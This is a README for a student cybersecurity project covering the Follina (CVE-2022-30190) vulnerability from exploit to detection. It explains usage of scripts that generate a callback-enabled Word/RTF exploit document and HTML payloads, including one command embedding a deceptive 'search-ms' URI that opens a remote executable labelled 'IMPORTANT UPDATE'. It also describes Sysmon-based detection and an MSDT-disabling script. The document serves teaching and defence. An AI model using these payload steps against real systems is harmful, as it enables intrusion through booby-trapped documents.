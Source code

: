 # five-nights-at-follina-s
A Fullstack Academy Cybersecurity project examining the full cycle of the Follina (CVE-2022-30190) vulnerability, from exploit to detection and defense.

Team:
- [Brian Aldrich](https://github.com/SB-Aldrich)
- [YoungWa Kim](https://github.com/T4369)
- [Jay O'Neill](https://github.com/rhomv)
- [(Binyang) Jeffrey Xu](https://github.com/jeffymcjeffface)

This set of tools assumes that you have a web host or can spin up a simple webserver using Python to host the generated or example payload files. Please use these tools only on VMs or other disposable environments!

# Offensive Tools
To create the Microsoft Word document with the Follina exploit, run docgen_v3.py, using the following options
- --extention/-e : change the document output from .doc (default) to rtf for a zero click attack. -e rtf
- --ip_address/-ip : change the IP address the document will try to reach out to (detault is 10.0.2.15).
- --port/-p : changes the port it will try to reach out to (default is 8000)

To create a payload html file, use generate_payload.py with either the `poc` subcommand to generate a proof of concept payload that opens the Windows Calculator or the `custom` subcommand to generate a payload with your own script.

Examples:
- `python generate_payload.py poc -o test.html` will generate the calculator payload in test.html
- `python generate_payload.py custom -o test.html -p "search-ms:query=procmon.exe&crumb=location:%5C%5Clive.sysinternals.com%5Ctools&displayname=IMPORTANT%20UPDATE"` will generate test.html as a custom payload with the SearchNightmare exploit

Example payloads can be found in the "Example Payloads" folder.

# Defensive Tools
Follina detection requires Sysmon to be installed to log events. Our detection methods here rely on finding instances where Microsoft Word calls MSDT.exe, but the scripts can be modified to search for other artifacts such as the arguments used by Follina in its Powershell command. The following tools are available:
- The Python scripts in the Sysmon Search folder allow a user to search their Sysmon logs for possible indicators of compromise by Follina and then manually examine those logs for confirmation.
- The msdt_exp-del-v3.ps1 Powershell script performs a similar search and, if it detects signs of Follina, makes a backup of the MSDT registry key and disables MSDT by deleting the key.
